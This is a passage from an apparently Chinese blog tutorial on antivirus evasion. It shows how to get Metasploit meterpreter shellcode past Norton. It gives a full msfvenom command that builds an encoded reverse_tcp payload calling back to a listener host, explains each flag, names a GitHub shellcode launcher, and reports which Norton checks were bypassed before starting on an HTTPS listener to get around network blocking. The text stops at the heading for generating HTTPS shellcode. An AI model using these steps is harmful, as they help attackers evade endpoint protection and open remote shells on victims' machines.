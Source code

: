 ### 9.1 免杀方案研发

#### 9.1.1 实战免杀诺顿Shellcode载入内存免杀

**Shellcode 载入内存免杀**

绕过诺顿主动、表面、通信拦截

创建MSF监听-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007232831146.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

生成shellcode

    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.241.132 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007232847810.png%23pic_center)

    -p: 指定payload；
    -e：指定编码方式；
    -i：编译次数；
    -b：去除指定代码，一般是空代码或者错误代码；
    lhost：指定本机IP；
    lport：指定本机监听端口；
    -f：指定生成格式；
    -o：指定生成输出后存储文件的位置
    
        

shellcode执行盒执行

    https://github.com/clinicallyinane/shellcode_launcher/
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007232916559.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
备注：窗口关闭后session掉线-
但是会通信会被拦截。

**诺顿查杀情况**-
表面过掉

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233021906.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
通信拦截-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233033229.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233038641.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233050598.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233056914.png%23pic_center)-
**绕过通信拦截**

建立https监听-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007233120951.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**生成https shellcode**
